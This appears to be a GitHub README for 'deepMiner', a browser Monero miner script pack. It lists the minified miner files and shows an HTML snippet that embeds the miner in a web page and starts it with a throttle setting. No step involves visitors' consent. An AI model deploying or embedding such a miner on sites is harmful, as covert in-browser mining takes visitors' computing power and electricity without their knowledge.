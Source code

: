 # Production ready XMR browser miner script pack

from:
```acsii
:::::::-.  .,:::::: .,::::::::::::::::. .        :   ::::::.    :::..,:::::: :::::::..
 ;;,   `';,;;;;'''' ;;;;'''' `;;;```.;;;;;,.    ;;;  ;;;`;;;;,  `;;;;;;;'''' ;;;;``;;;;
 `[[     [[ [[cccc   [[cccc   `]]nnn]]' [[[[, ,[[[[, [[[  [[[[[. '[[ [[cccc   [[[,/[[['
  $$,    $$ $$""""   $$""""    $$$""    $$$$$$$$"$$$ $$$  $$$ "Y$c$$ $$""""   $$$$$$c
  888_,o8P' 888oo,__ 888oo,__  888o     888 Y88" 888o888  888    Y88 888oo,__ 888b "88bo,
  MMMMP"`   """"YUMMM""""YUMMM YMMMb    MMM  M'  "MMMMMM  MMM     YM """"YUMMMMMMM   "W"

  deepMiner (idea from coinhive.js)
  Worker for own Pool or personal XMR Wallet
  By evil7@deePwn

----------------------------------------------------------------------------------------
```


## Usage

* Copy uglified scripts (preserve structure) to webroot dir your site:
```acsii
xmrMiner-scriptPack.git
.
|-- dm.js (miner)
|__ w.js  (worker - load wasm or js crypt)
    lib
    |-- cn.wasm    (fast wasm version)
    |-- cna.js     (for unsupported wasm browsers)
    |__ cna.js.mem (for unsupported wasm browsers)
    
```

* Replace 'localhost' at first line w.js to your site domain.

* Add some javascript and write like this :
```html
<script src="/dm.js"></script>
<script>
    var miner = new deepMiner.Anonymous('xmr_addr').start();
    miner.setThrottle(0.5);
</script>
```


## API

Same like this: <https://coinhive.com/documentation/miner> (JUST javascript API)


## Example

<http://www.okchain.ru/demo.html>


## Source

```acsii
xmrMiner-scriptPack.git
.
|-- README.md
|-- LICENSE
|__ web
    |-- deepMiner.js (source)
    |-- dm.js (uglified deepMiner.js)
    |-- demo.html
    |-- lib
    |   |-- cryptonight-asmjs.js (source)
    |   |-- cna.js (uglified cryptonight-asmjs.js)
    |   |-- cna.js.mem
    |   |__ cn.wasm
    |__ worker.js (source)
    |__ w.js (uglified worker.js)
```


## License

MIT <https://raw.githubusercontent.com/mixartemev/xmrMiner-scriptPack/master/LICENSE>


## Missions

Building a WebUI. Manage about miner status and banned rules pool setting or something
